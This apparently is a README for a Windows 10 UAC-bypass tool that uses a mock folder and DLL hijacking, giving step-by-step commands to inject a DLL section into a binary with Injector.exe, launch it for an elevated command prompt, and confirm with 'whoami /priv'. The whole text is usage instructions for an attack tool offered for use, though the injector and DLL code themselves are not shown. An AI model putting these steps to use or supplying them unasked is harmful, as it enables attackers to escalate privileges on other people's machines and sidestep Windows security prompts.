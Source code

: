 # Bypassing Windows 10 with mock folder and DLL Hijacking  
## Auto

**Steps**
1. Inject the DLL into the binary
2. Start the binary will open cmd in UAC privilege!

In the cmd go to the folder that "Injector.exe" is inside.
Type the command:

```cmd
Injector.exe <.SectioName> <Binary_path> <DLL_path>
```

For Example:
```cmd
Injector.exe .DLL BypassUAC.exe DLL_BypassUAC.dll
```
To check if the section is injected successfully you can open the binary in "CFF Explorer" software.

Start the binary!

To check if its works type in the new cmd that now opened:
```cmd
whoami /priv
```

https://user-images.githubusercontent.com/52316309/174519967-9735dbe0-f91d-4b82-83da-dfeb7bb5c6e7.mp4

**Links**

CFF Explorer:
https://ntcore.com/?page_id=388
